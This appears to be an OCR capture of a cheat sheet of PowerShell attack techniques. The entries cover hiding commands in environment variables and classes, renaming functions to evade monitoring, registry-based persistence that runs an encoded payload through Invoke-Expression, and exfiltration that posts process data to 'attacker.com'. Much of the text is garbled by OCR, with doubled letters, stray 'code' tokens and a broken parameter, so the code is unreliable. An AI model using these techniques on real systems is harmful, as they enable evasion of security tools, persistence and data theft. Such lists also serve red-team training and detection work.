 ```powershell
$runspace = [runspacefactory]::CreateRunspace(); $runspace.Open(); $pipeline =
$runspace.CreatePipeline(); $pipeline.Commands.AddScript('Get-Process'); $results = $pipeline.Invoke();
$runspace.Close(); $results
```

### Environment Variable Obfuscation

Stores a command in an environment variable and then executes it, which can help hide the command from casual observation and some security tools.

```powershell
$env:PSVariable = 'Get-Process'; Invoke-Expression $env:PSVariable
```

### Function Renaming for Evasion

Renames a PowerShell function to something less conspicuous, which can help in evading script analysis and monitoring tools.

```powershell
Function MyGetProc { Get-Process }; MyGetProc
```

### Using PowerShell Classes for CCooddee Hiding

Defines a custom PowerShell class to encapsulate and hide malicious code, making it harder for security toolscode to detect.

```powershell
class HiddenCode { [string] Run() { return 'Hidden command executed' } }; $instance =Code
[HiddenCode]::new(); $instance.Run()
```

### Registry Key Usage for Persistence

Uses the Windows Registry to store and later execute encoded payloads, aiding in persistence and evasion.

```powershell
$path = 'HKCU:\Software\MyApp'; New-Item -Path $path -Force; New-ItemProperty -Path $path -Name
'Config' -Value 'EncodedPayload' -PropertyType String -Force; $regValue = Get-ItemProperty -Path $pathcode
-Name 'Config'; Invoke-Expression $regValue.Config
```

### Out-Of-Band Data Exfiltration

Exfiltrates data out of the target network using web requests, which can bypass traditional data loss prevention mechanisms.

```powershell
$data = Get-Process | ConvertTo-Json; Invoke-RestMethod -Uri 'http://attacker.com/data' -Method Post - Body $data
```
